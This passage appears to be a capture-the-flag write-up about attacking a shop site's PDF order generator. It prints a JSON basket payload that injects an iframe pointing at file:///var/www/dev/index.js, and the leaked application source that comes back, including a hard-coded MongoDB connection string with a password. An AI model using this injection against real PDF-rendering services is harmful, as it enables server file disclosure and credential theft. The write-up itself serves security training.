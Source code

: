 ```
<pre>SyntaxError: Unexpected token } in JSON at position 158<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/var/www/dev/node_modules/body-parser/lib/types/json.js:89:19)<br> &nbsp; &nbsp;at /var/www/dev/node_modules/body-parser/lib/read.js:128:18<br> &nbsp; &nbsp;at AsyncResource.runInAsyncScope (node:async_hooks:203:9)<br> &nbsp; &nbsp;at invokeCallback (/var/www/dev/node_modules/raw-body/index.js:231:16)<br> &nbsp; &nbsp;at done (/var/www/dev/node_modules/raw-body/index.js:220:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/var/www/dev/node_modules/raw-body/index.js:280:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (node:events:513:28)<br> &nbsp; &nbsp;at endReadableNT (node:internal/streams/readable:1359:12)<br> &nbsp; &nbsp;at process.processTicksAndRejections (node:internal/process/task_queues:82:21)</pre>
</body>
</html>
```

We can now try to get the source which is in `/var/www/dev`:

```
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=\"file:///var/www/dev/index.js\" width=\"1000\" height=\"1000\">","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

This returns source code with password:

```
Stockers - Purchase Order
Supplier
Stockers Ltd.
1 Example Road
Folkestone
Kent
CT19 5QS
GB
Purchaser
Angoose
1 Example Road
London
GB
7/7/2023
Thanks for shopping with us!
Your order summary:
Item Price
(£) Qu
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(
session({
secret: randomBytes(32).toString("hex"),
resave: false,
saveUninitialized: true,
store: MongoStore.create({
mongoUrl: dbURI,
}),
})
```